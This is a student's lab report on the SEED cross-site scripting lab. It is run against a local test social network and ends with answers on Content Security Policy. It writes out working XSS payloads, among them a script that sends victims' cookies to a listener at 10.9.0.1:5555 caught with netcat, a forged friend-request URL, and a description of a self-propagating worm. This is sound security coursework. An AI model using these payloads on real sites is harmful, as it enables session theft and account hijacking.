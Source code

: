 #+TITLE: CSE-343
#+AUTHOR: Marc Soda Jr
#+OPTIONS: num:nil
#+STARTUP: overview
#+LATEX_HEADER: \usepackage[margin=0.5in]{geometry}
* Setup:
- Most of the mappings in /etc/hosts were already setup. I only had to add the one for seed-server.com
- I was having trouble getting the containers working. The solution was to delete all of the previous containers on the machine as they were causing come sort of conflict.
- Everything seems to work and I can establish a connection to seed-server.com through Firefox on the machine.
* Task 1:
- I logged in as Samy (who I will be using as my attacker).
- I went to her profile settings and added `<script>alert("XSS ATTACKED")</script>` to the brief description field of her profile.
- After refreshing I saw a popup saying my alert message. This lead me to believe the attack was successful.
- I then logged in as Alice (the victim in this context) and went to Samy's profile. Again, I received the malicious popup, indicating that the attack was successful. See screenshot.
[[./images/0.jpg]]
* Task 2:
- I logged back in as Samy and edited the previous code in the brief description section to read `<script>alert(document.cookie)</script>`
- The cookie information was displayed on my page indicating that the attack may have been successful.
- I then logged out and logged in as Alice and went to Samy's profile. The cookie information was alerted to the page, indicating that the attack was successful. See screenshot.
[[./images/1.jpg]]
* Task 3:
- I logged back in as Samy and edited the previous code in the brief description section to read `<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');`
- I then went to the seed console and ran `nc -lknv 5555` to listen on port 5555
- I then logged out and logged back in as Alice and went to Sammy's profile. The cookie contents were received therefore the attack was successful. See screenshot.
[[./images/2.jpg]]
* Task 4:
- I logged back in as Samy and edited the about me section of her profile as indicated on the lab.
- I used HTTP Live header to figure out how to construct the URL. See screenshot.
- The URL I used was `"http://www.seed-server.com/action/friends/add?friend=59" + token + ts`.
[[./images/3.jpg]]
- I was then able to log in as Alice, navigate to Samy's page, and see that Samy was added as Alice's friend.
- Question 1:
  - ts and token represent two security tokens that need to be sent with the friend request for it to be valid. It is a security mechanism. As I found out using HTTP Live Header, they are appended to the end of the URL.
  - Yes. You can add the code to a JavaScript function and add code to a different section of the profile (such as the brief description section). This code will load the malicious JavaScript code and run the attack successfully.
* Task 5:
- I logged in an Samy and edited the HTML of the About Me section to read:
[[./images/4.jpg]]
- When I logged in as Alice, navigated to Samy's page, then checked Alice's profile I noticed that her About Me section contained my malicious message, indicating that the attack was a success. See screenshot.
[[./images/5.jpg]]
- Question 3:
  - We need line one so Samy doesn't attack himself. Removing line one will cause the About Me section of Samy to display the malicious message.

* Task 6:
- The worm is now self-propagating. See below screenshot for the code added to Samy's About Me section.
[[./images/7.jpg]]
- If I logout as Samy and log back in as Alice and navigate to Sam's page, her About Me section is changed to the malicious message I included in my attack, as expected. Furthermore, if I logout and log back in as Boby and navigate to Alice's page, his About Me message is updated to the malicious message. Therefore the code is self-propagating and the attack was a success.
[[./images/6.jpg]]

* Task 7:
- Question 1 and 2:
  - example32a.com
    - 1-6 are OK
    - On button click, displays alert "JS Code executed"
    - all because CSP not enabled
  - example32b.com
    - 1-3 and 5 Failed
    - 4 and 6 are OK
    - On button click, nothing happens
    - all because CSP header only allows for JS from self and the example70.com domain.
  - example32c.com
    - 2, 3, and 5 FAILED
    - 1, 4, and 6 are OK
    - On button click, nothing happens
    - all because the PHP file's CSP header allows JS from self, the example70.com domain, and nonce-111-111-111
- Question 3:
  - For example32b.com, area 6 is already OK, but area 5 is not. In order to make area 5 OK we need to add *.example60.com to the script-src section of the www.example32.com VirtualHost in /etc/apache2/sites-available/apache_csp.conf. See screenshot. After writing the file, I ran service apache2 restart. When refreshing the http://www.example32b.com site I not get area 5 and 6 showing OK. See screenshot.
  - Code:
    - [[./images/9.jpg]]
  - Result:
    - [[./images/8.jpg]]
- Question 4:
  - For example32c.com, area 4 and 6 are already OK, but 2 and 5 are not. In order to make them okay I needed to add *.example60.com and nonce-222-222-222 to the cps header in /var/www/csp/phpindex.php. See screenshot. After writing the file, I ran service apache2 restart. When refreshing the http://www.example32c.com site, I get the expected output. See screenshot.
  - Code:
    - [[./images/011.jpg]]
  - Result:
    - [[./images/010.jpg]]
- Question 5:
  - CSP defends against cross-site-scripting attacks by restricting JavaScript code from unintended sources. It also restricts other page contents like limiting where images, audio, and video come from.
